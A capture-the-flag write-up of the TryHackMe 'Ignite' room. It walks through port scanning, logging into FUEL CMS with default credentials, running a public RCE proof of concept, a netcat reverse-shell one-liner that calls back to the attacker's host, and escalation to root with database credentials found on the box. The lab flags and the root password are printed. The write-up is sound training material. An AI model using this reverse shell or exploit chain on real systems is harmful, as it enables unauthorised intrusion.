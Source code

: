 # Ignite

A new start-up has a few issues with their web server.

Room URL: https://tryhackme.com/room/ignite

---

# Task 1

No info given at all. Let's start with a portscan. Just one open port?

```bash
$ nmap -sC -sV 10.10.99.113
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 21:16 CEST
Nmap scan report for 10.10.99.113
Host is up (0.042s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

Let's check out that `/fuel` the `robots.txt` mentions. At the same time I'm
running gobuster. Everything in the root just displays the index and almost
everything in `/fuel` just redirects back to the login page. The index page
actually mentions the default credentials are `admin:admin` so let's use those
to log in to `/fuel`. It works!

After some googling I found there's an [RCE
vulnerability](https://www.exploit-db.com/exploits/47138) so let's download that
and modify it for our poc.

I was actually getting a PHP error when running the POC, but it seems to be
working still.

```
$ python poc.py
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>
```

So now that we have this, could we get a reverse shell working? Yes!

```
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.39.224 8888 >/tmp/f
```

```
$ nc -lnvp 8888
Connection from 10.10.207.100:47232
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

1. User.txt

Hooking in on what we did to get to this assignment, finding the flag was easy:

```
$ ls /home
www-data
$ ls /home/www-data
flag.txt
$ cat /home/www-data/flag.txt
6470e394cbf6dab6a91682cc8585059b
```

```
6470e394cbf6dab6a91682cc8585059b
```

2. Root.txt

After trying to find suid binaries for a while and being unable to find useful
ones I remembered reading this on the index page:

![](database.png)

Credentials in a datbase file? Let's find that shall we?

```bash
$ find / -name 'database.php' 2>/dev/null
/var/www/html/fuel/application/config/database.php
```

There's root credentials in the file. Let's use those to gain access to root.

```
su root
Password: mememe

root@ubuntu:/var/www/html#
```

Now the only thing that remains is extracting the root flag from
`/root/root.txt`

```
b9bbcb33e11b80be759c4e844862482d
```
